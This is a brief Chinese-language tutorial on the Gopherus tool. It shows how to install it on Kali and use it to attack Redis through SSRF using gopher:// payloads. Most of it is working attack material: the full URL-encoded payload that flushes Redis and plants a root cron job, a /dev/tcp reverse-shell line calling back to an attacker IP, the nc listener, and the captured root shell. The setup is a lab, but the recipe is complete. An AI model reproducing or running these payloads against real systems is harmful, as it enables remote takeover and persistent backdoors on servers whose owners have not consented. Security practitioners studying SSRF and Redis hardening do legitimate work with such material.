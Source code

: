 在 SSRF 漏洞用于生成 Gopher Payload 的工具。

## 1 安装

下载

```shell
┌──(root㉿kali)-[~]
└─# git clone https://github.com/tarunkant/Gopherus.git /root/tools/gopherus && sudo sed -i 's/python2/python3/g' /root/tools/gopherus/install.sh
```

安装

```shell
┌──(root㉿kali)-[~]
└─# cd /root/tools/gopherus/ && bash install.sh && cd
```

## 2 使用

查看帮助

```shell
┌──(root㉿kali)-[~]
└─# gopherus -h
```

## 3 实战

**`redis`** 

安装 `redis` 并运行

```shell
[root@centos ~]# sudo yum install -y redis && sudo redis-server
```

攻击 `redis` 

```shell
┌──(root㉿kali)-[~]
└─# gopherus --exploit redis
```

选择反弹 `shell` 

```
What do you want?? (ReverseShell/PHPShell): ReverseShell
```

填写接收地址

```
Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 192.168.1.30
```

直接回车忽略

```
## For debugging(locally) you can use /var/lib/redis :
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
```

发送 `url` 

```shell
[root@centos ~]# curl gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2467%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.1.30/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

一分钟后接收到 `shell` 

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.1.30] from test.local [192.168.1.50] 33366
sh: 此 shell 中无任务控制
sh-4.2#
```

查看计划任务

```shell
[root@centos ~]# cat /var/spool/cron/root
```

```
*/1 * * * * bash -c "sh -i >& /dev/tcp/192.168.1.30/1234 0>&1"
```

---

Refrences

- [Gopherus](https://github.com/tarunkant/Gopherus)
